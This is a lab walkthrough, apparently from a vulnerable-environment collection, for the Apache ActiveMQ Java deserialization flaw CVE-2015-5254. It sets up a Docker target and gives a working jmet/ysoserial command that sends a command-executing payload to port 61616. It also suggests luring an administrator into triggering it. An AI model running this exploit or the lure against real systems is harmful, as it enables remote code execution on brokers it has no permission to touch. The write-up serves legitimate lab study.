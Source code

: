 # ActiveMQ Deserialization Vulnerability (CVE-2015-5254)

Apache ActiveMQ is an open source messaging middleware developed by the Apache Software Foundation. It supports Java messaging services, clustering, and Spring Framework.

A security vulnerability exists in the 5.x release of Apache ActiveMQ 5.13.0, which stems from a program that does not restrict the classes that can be serialized in the proxy. A remote attacker can exploit this vulnerability to execute arbitrary code with a specially crafted serialized Java Message Service (JMS) ObjectMessage object.

Reference link:

- https://www.blackhat.com/docs/us-16/materials/us-16-Kaiser-Pwning-Your-Java-Messaging-With-Deserialization-Vulnerabilities.pdf

## Vulnerability environment

Run the vulnerability environment:

```
docker-compose up -d
```

After the environment is running, it will listen to the two ports of 61616 and 8161. Among them, 61616 is the working port, and the message is delivered on this port; 8161 is the web management page port. You can see the web management page by visiting `http://your-ip:8161`, but this vulnerability does not require web in theory.

## Vulnerability recurrence

The exploit process is as follows:

1. Construct (you can use ysoserial) serialized objects of executable commands
2. As a message, send to port 61616
3. Access the web management page, read the message, trigger the vulnerability

Use [jmet] (https://github.com/matthiaskaiser/jmet) for exploits. First download the jar file of jmet, and create an external folder in the same directory (otherwise it may explode the error that the folder does not exist).

The jmet principle is to use ysoserial to generate Payload and send it (the jar comes with ysoserial, no need to download it yourself), so we need to choose one that can be used in ysoserial is the gadget, such as ROME.

carried out:

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
```

![](1.png)

At this point, we will add a queue named event to the target ActiveMQ. We can see all the messages in this queue through `http://your-ip:8161/admin/browse.jsp?JMSDestination=event`:

![](2.png)

Click to view this message to trigger the command execution. At this point, enter the container `docker-compose exec activemq bash`, and the /tmp/success is successfully created, indicating that the exploit is successful:

![](3.png)

Replace the command with a shell statement and reuse it:

![](4.png)

It's worth noting that accessing messages through the web administration page and triggering the vulnerability requires administrator privileges. In the absence of a password, we can induce the administrator to access our link to trigger, or pretend to be a message for other legitimate services, triggered when waiting for client access.